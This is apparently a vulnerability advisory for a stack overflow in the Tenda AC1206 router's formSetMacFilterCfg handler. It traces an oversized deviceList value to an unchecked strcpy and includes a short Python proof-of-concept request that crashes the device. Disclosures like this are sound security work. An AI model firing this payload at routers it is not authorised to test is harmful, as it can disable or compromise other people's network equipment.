





# Tenda AC1206 formSetMacFilterCfg
### Overview
vendor: Tenda
product: AC1206
version: 15.03.06.23
type: Stack Overflow
### Vulnerability Description
Tenda AC1206 15.03.06.23 were discovered to contain a stack overflow via the deviceList parameter in the formSetMacFilterCfg function.

### Vulnerability details
In function formSetMacFilterCfg line 46, it reads in a user-provided parameter `deviceList`. The variable `v3` is passed as a parameter to the `set_macfilter_rules` function. Function `set_macfilter_rules` takes this variable as a parameter and passes it into function `set_macfilter_rules_by_one`. Function `set_macfilter_rules_by_one` calls function `parse_macfilter_rule`, where the first parameter is variable `a2`(actually `v3`) and the second parameter is the stack-based buffer `s_2`. In function `parse_macfilter_rule`, the variable `s`(actually `v3`) is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `dest`(actually `s_2`). As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.






### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setMacFilterCfg"

data = {
    "macFilterType": "white",
    "deviceList": "a" * 1000 + "\r" + "b" * 1000
}


response = requests.get(url, params=data)
print(response.text)
```


